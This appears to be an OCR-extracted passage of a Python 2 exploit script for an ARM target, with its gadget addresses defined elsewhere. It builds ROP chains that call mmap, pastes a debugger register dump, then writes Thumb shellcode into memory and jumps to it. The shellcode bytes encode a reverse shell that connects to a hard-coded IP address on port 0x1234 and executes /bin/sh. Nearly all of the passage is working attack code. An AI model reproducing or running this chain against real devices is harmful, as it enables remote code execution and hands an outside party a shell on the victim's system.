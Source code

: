 ```python
ropchain += p32(address) #r3 dont care
ropchain += p32(address) #r4 dont care
ropchain += p32(r03pop+1) #pc
ropchain += p32(address) #r0 addr
ropchain += p32(0x22) #r3 flags Anonimous
ropchain += p32(mmap)
ropchain += p32(0x0) #fildes
ropchain += p32(0x0) #off
ropchain += p32(0x41414141) #pc

"""
r0             0xffffffff          4294967295
r1             0x9                 9
r2             0x76f9c6a0          1996080800
r3             0xffffffff          4294967295
r4             0x41414141          1094795585
r5             0x41414141          1094795585
r6             0x41414141          1094795585
r7             0x41414141          1094795585
r8             0x41414141          1094795585
r9             0x177000            1536000
r10            0x177000            1536000
r11            0x177000            1536000
r12            0x6                 6
sp             0x7ed1fd70          0x7ed1fd70
lr             0x76dde329          1994253097
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x200f0110          537854224
fpscr          0x10                16
"""

#0x000118c4 : strb r3, [r4] ; pop {r4, pc}
storer3r4 = 0x000118c4
#0x00013ad2 : str r2, [r3] ; pop {r4, pc}
storer2r3 = 0x00013ad2
# 0x00013568 : str r4, [r3] ; mov r0, r1 ; pop {r4, pc}
storer4r3 = 0x00013568

ropchain_second = "A"*126

# 0x00012a6a : pop {r3, pc}
popr3 = 0x00012a6a

shellcode = "\x02\x20\x01\x21\x92\x1A\x0F\x02\x19\x37\x01\xDF\x06\x1C\x08\xA1\x10\x22\x02\x37\x01\xDF\x3F\x27\x02\x21\x30\x1c\x01\xdf\x01\x39\xFB\xD5\x05\xA0\x92\x1a\x05\xb4\x69\x46\x0b\x27\x01\xDF\xC0\x46\x02\x00\x12\x34\x25\x3b\x24\x28\x2f\x62\x69\x6e\x2f\x73\x68\x00"

print len(shellcode)
ropchain_second += p32(r4pop+1) #r4
ropchain_second += shellcode[0:4] #r4
for x in range(0, len(shellcode), 4):
    spiece_next = shellcode[x+4:x+8]
    if x >= len(shellcode)-4:
        spiece_next = p32(address+1) # These put jumping address in r4
        print "done"
    ropchain_second += p32(popr3+1) #pc
    ropchain_second += p32(address+x) #r3 value
    ropchain_second += p32(storer4r3+1) #pc
    ropchain_second += spiece_next #r4
#add jump to address
ropchain_second += p32(blxr4+1)


```